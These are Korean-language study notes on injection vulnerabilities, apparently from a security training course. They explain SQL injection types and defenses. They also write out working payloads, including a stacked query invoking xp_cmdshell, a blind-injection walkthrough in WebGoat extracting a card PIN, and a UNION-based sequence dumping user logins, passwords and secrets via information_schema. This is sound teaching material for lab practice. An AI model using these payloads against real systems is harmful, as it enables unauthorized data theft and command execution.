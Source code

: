 # 인젝션(삽입, Injection)

- 입력값을 검증 없이 **처리**에 사용하는 경우, 처리의 원래 의미와 형태가 변형되어서 실행되는 것
  - 쿼리문을 만들고, 실행하는 처리 → SQL Injection
  - XML 문서를 조회하는 쿼리를 만들고, 실행하는 처리 → XPath Injection, XQuery Injection 
  - 운영체제 명령어를 실행하는 처리 → Command Injection 



## 인젝션을 방어하기 위한 방법

1. 입력값을 검증
2. 구조화된 처리, 파라미터화된 처리, … ⇐ 어떠한 입력을 받더라도 동일한 형태가 유지되는 것



- 입력값 검증은 공격자가 다양한 형태로 입력값을 변형해서 전달하므로 쉽지 않다. 

- 정규화 또는 규범화, 새니타이즈 과정을 거친 후 검증을 수행해야 한다.



![1565675831032](C:\Users\student\AppData\Roaming\Typora\typora-user-images\1565675831032.png)



## SQL Injection

- **외부 입력값을 쿼리 조작 문자열 포함 여부를 확인하지 않고 쿼리문 작성 및 실행에 사용**하는 경우 발생

  → 의도하지 않은 형태로 쿼리가 변형되어서 실행 = 쿼리문의 의미와 구조가 변형되어 실행

  → 권한밖의 데이터 조회 및 생성, 수정, 삭제가 가능

  → 서버의 제어권을 탈취

  → 쿼리문의 용도에 따라서 기능을 우회



![1565676009453](C:\Users\student\AppData\Roaming\Typora\typora-user-images\1565676009453.png)![1565676124711](C:\Users\student\AppData\Roaming\Typora\typora-user-images\1565676124711.png)



#1. 항상 참이 되는 입력 ⇒ 권한 밖의 데이터 조회가 가능
예) ../dosomething.jsp?id=a' or 'a' = 'a
⇒ … where id = 'a' or 'a' = 'a'

#2. 오류를 유발하는 입력 ⇒ 정보수집을 통해 추가 공격을 기획
예) ../dosomething.jsp?id=a'
⇒ … where id = 'a'' 

#3. SP(Stored Procedure)를 호출하는 입력 ⇒ 시스템 SP 호출
예) ../dosomething.jsp?id=a' ; exec xp_cmdshell 'cmd.exe /c dir' ; --
⇒ … where id = 'a' ; exec xp_cmdshell 'cmd.exe /c dir' ; --' 

#4. UNION 구문을 입력 ⇒ 정상적인 서비스 화면을 통해서 공격자가 원하는 정보를 조회
예) ../dosomething.jsp?id=a' and 1 = 2 union select * from .... --
⇒ … where id = 'a' and 1 = 2 union select * from .... --' 
⇒ 일반적으로 시스템 테이블을 우선적으로 조회

#5. Blind SQL Injection ⇒ 참인 조건과 거짓인 조건에 따른 서버의 반응을 보고 원한 값을 찾아가는 과정
예) ../dosomething.jsp?id=123
⇒ … where id = '123' → ID가 123인 사용자의 정보가 조회되어서 출력
../dosomething.jsp?id=123' and 1 = 1 --
⇒ … where id = '123' and 1 = 1 -- ' → ID가 123인 사용자의 정보가 조회되어서 출력
../dosomething.jsp?id=123' and 1 = 2 --
⇒ … where id = '123' and 1 = 2 -- ' → 결과 없음

../dosomething.jsp?id=123' and (select …) --
⇒ … where id = '123' and (select …) -- ' 
→ 결과 없음 ⇒ (select …) 구문은 거짓
→ 사용자 정보 ⇒ (select …) 구문은 참

Blind SQL Injection 예시

@WinXP WebGoat으로 접속
WebGoat > Injection Flaws > Blind Numeric SQL Injection > 계좌의 유효성 체크 서비스
문제: pins 테이블에서 cc_number의 값이 1111222233334444인 pin 값을 찾으시오.
⇒ select pin from pins where cc_number = '1111222233334444'

[화면] 
Account Number : 101

[전달]
../check.jsp?account_number=101

[사용]
select * from accounts where account_number = 101
→ 결과가 있으면 → Account number is valid.
→ 결과가 없으면 → Invalid account number.

입력순서
101 ⇒ 유효한 계좌번호이므로 Account number is valid 메시지 출력
999 ⇒ 유효하지 않은 계좌번호이므로 Invalid account number 메시지 출력
101 and 1=1 ⇒ 항상 참(1=2)인 조건이므로 101을 입력했을 때와 동일한 결과
101 and 1=2 ⇒ 항상 거짓(1=2)인 조건이므로 Invalid account number 메시지가 출력
101 and (select pin from pins where cc_number = '1111222233334444') < 3000 ⇒ Invalid account number 메시지 출력 → 찾고자 하는 pin 값이 3000 보다 작음
101 and (select pin from pins where cc_number = '1111222233334444') < 2000 ⇒ Account number is valid 메시지 출력 → 찾고자 하는 pin 값이 2000 보다 큼
101 and (select pin from pins where cc_number = '1111222233334444') = 2364 ⇒ Account number is valid 메시지 출력 → 찾고자 하는 pin 값이 2364 임





```
#1 a' 입력해서 인젝션 여부를 확인 
a' 
⇒ select * from movies where like '%a'%'
Error: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '%'' at line 1

#2 정상적인 입력을 통해서 쿼리 실행 결과를 확인
man으로 검색
⇒ select * from movies where like '%man%'

#3 정상적인 쿼리가 몇 개의 컬럼을 반환하는지 확인
select * from movies where like '%man' order by 1 -- %'
		:
select * from movies where like '%man' order by 8 -- %'
⇒ Error: Unknown column '8' in 'order clause' ⇐ 7 컬럼이 존재

#4 UNION 구문을 이용해서 DB정보를 출력
select * from movies where like '%man' and 1=2 union select @@version,2,3,4,5,6,7 -- %' 
⇒ 2, 3, 5, 4 가 출력
select * from movies where like '%man' and 1=2 union select 1,@@version,3,4,5,6,7 -- %' 

#5 테이블 정보를 조회
select * from movies where like '%man' and 1=2 union select 1,table_catalog,table_schema,table_name,table_type,6,7 from information_schema.tables -- %' 

#6 users 테이블에 컬럼 정보를 조회
select * from movies where like '%man' and 1=2 union select 1,column_name,3,4,5,6,7 from information_schema.columns where table_name='users' -- %' 

#7 users 테이블에 id, login, password, email, secret 정보를 조회
select * from movies where like '%man' and 1=2 union select 1,id,login,password,concat(email, ' : ', secret),6,7 from users -- %' 



select * from movies where like '%man%' → 영화 정보
UNION
select * from xxxxxx → 공격자가 알고자 하는 정보를 조회하는 쿼리
⇒ select * from movies where like '%man' union select * from xxxxx -- %'
→ 각 쿼리의 결과 컬럼의 개수가 동일해야 한다.
→ 각 컬럼의 데이터 타입이 호환 가능해야 한다.

```

